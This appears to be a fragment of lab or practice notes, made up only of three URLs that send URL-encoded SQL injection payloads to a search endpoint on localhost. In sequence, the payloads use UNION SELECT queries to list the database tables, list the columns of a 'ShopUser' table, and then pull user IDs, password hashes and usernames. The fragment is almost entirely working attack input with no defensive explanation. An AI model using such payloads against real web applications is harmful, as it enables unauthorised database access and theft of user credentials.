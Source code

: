 http://localhost:3000/search?s=%22%20and%201=2%20UNION%20SELECT%201,%20table_name,%201,%201%20FROM%20information_schema.tables%20%20--%20

http://localhost:3000/search?s=%22%20and%201=2%20UNION%20SELECT%201,%20column_name,%201,%201%20FROM%20information_schema.columns%20where%20table_name%20=%22ShopUser%22%20%20--%20


http://localhost:3000/search?s=%22%20and%201=2%20UNION%20SELECT%20userID,%20userHash,%20userName,%201%20FROM%20ShopUser%20%20--%20